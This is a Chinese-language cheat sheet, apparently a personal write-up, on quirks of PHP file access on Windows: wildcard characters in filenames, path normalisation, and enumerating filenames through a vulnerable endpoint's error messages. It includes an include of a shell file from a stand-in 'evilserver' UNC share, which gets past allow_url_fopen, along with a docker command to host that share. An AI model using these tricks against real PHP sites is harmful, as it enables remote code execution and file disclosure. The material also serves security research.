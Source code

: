 # windows下的php文件访问及上传cheat-sheet

原文: Oddities of PHP file access in Windows®.Cheat-sheet. 

## 测试环境

 PHP 4.9, PHP 5.2, PHP 5.3, PHP 6.0.Operating systems that were tested: Windows XP SP3 x32, Windows XP SP2 x64, Windows 7,Windows Server 2003. 



当然基本上所有的php版本和windows系统都适用





## cheat-sheet

### windows对大小写不敏感

1.php<=>1.pHp

### '<'被替换成'*'

`include('shell<')`相当于`include('shell*')`,但是有时候<会不起作用,为了保证被替换成*,应该用`<<`

### '>'被替换成'?'

`include('file.p>p')`=>`include('file.p?p')`



 During the trace of call stack it was found out that thecharacter > gets replaced with ?, character < transforms to *, and " (double quote) is replaced by a .(dot). 

![table1.jpg](http://ww1.sinaimg.cn/large/006pWR9aly1g8i9c2dzi0j30p60n5tb4.jpg)



### `"` 会被替换成`.`

`include('evil"php')`=>`include('evil.php')`



### 读取'zzz'相当于读取'.zzz'

`fopen('htaccess')`=>`fopen('.htaccess')`

但是在我的win10电脑上却没有测试成功

### 文件名结尾为.那么前面任何`.,\,/`都会被忽略

```php
fopen("config.ini\\.//\/\/\/.");
fopen("config.ini\./.\.");
fopen("config.ini\\\.");
fopen("config.ini...............");
必须以点结尾
```

emmmm前面三个在win10下无效

### \\\\绕过allow_url_fopen=Off,来rfi

 https://xz.aliyun.com/t/5535#toc-2 （搭建方法）

```
借用P神的方法快速搭建webdav服务器

一键启动一个webdav服务器

docker run -v /root/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav
然后把php文件放到/root/webdav/data里就行了
```



` include ('\\evilserver\shell.php'); `

这里貌似无法设置端口号

/////不知道怎么利用////////

用wireshark抓包后发现，会去访问139和445端口

或许每个windows系统的vps就能利用了

### 'c:flag'=='c:\flag'

` file_get_contents('C:boot.ini'); is equal to file_get_contents ('C:/boot.ini'); `



### dos短文件名

在win10下每测试成功



## 利用<<生成的通配符来爆破文件名



假设存在这这样一个文件test.php

```php
<?phpfile_get_contents("/images/".$_GET['a'].".jpg");
//or another function from Table 1, i.e. include().
?>
```

当请求为:test.php?a=../a<

当返回

` Warning: include(/images/../a<) [function.include]: failed to open stream: Invalid argument in `

时代表不存在a开头的文件或文件夹

当返回

` Warning: include(/images/../a<) [function.include]:  failed to open stream: Permission denied
 `

说明存在a开头的文件或文件夹

